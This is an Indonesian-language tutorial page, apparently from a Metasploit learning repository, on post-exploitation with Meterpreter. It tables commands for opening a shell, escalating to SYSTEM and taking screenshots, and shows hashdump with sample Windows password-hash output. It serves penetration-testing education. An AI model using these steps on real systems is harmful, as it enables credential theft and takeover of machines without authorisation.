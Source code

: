 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Menggunakan%20Exploit%20dari%20Exploit-DB%20di%20Metasploit.md">Menggunakan Exploit dari Exploit-DB di Metasploit</a>
</p>

# Post-Exploitation di Metasploit

## A. Apa Itu Post-Exploitation?

[Post-Exploitation](https://en.wikipedia.org/wiki/After_Exploitation) adalah tahap lanjutan setelah berhasil mendapatkan akses ke sistem target. Di Metasploit, khususnya dengan Meterpreter session, kamu bisa melakukan berbagai aktivitas lanjutan untuk `mengumpulkan informasi`, `memperluas akses`, hingga `mengambil alih sistem` secara penuh.

## B. Konsep Dasar Meterpreter

[Meterpreter](https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/) adalah payload berbasis memory injection yang powerful, interaktif, dan tidak menulis file ke disk (stealthy). Setelah exploit berhasil, Meterpreter menyediakan antarmuka CLI untuk post-exploitation.

## C. Perintah Dasar Meterpreter

| Perintah	| Fungsi |
|:--:|:--:|
| `sysinfo`	| Melihat informasi sistem target |
| `getuid` | Menampilkan User ID (UID) |
| `ps` | Menampilkan proses yang sedang berjalan |
| `shell`	| Membuka command shell dari mesin target |
| `getprivs` | Menampilkan privilege yang dimiliki |
| `getsystem`	| Mencoba escalate privilege jadi SYSTEM |
| `screenshot` | Mengambil tangkapan layar target |

Untuk melihat semua perintah yang ada di Meterpreter gunakan perintah `help`.

## D. Dump Password Hash

1. Secara Otomatis dengan `hashdump`:

   ```
   hashdump
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > hashdump 
   admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:691476ca8d6485699f3ca2ba1baa14e8:::
   ```
